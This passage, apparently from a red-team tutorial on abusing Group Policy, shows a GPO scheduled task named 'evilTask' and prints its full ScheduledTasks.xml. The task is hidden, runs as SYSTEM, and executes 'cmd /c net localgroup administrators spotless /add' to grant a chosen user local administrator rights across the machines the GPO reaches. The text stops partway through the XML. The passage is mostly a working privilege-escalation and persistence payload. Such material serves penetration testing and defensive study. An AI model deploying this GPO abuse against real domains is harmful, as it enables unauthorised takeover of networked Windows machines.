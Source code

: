 If we observe the Scheduled Tasks of the `Misconfigured Policy` GPO, we can see our `evilTask` sitting there:

![](<../../.gitbook/assets/Screenshot from 2018-12-20 12-02-22.png>)

Below is the XML file that got created by `New-GPOImmediateTask` that represents our evil scheduled task in the GPO:

{% code title="\\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">
        <Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>cmd</Command>
                        <Arguments>/c net localgroup administrators spotless /add</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
```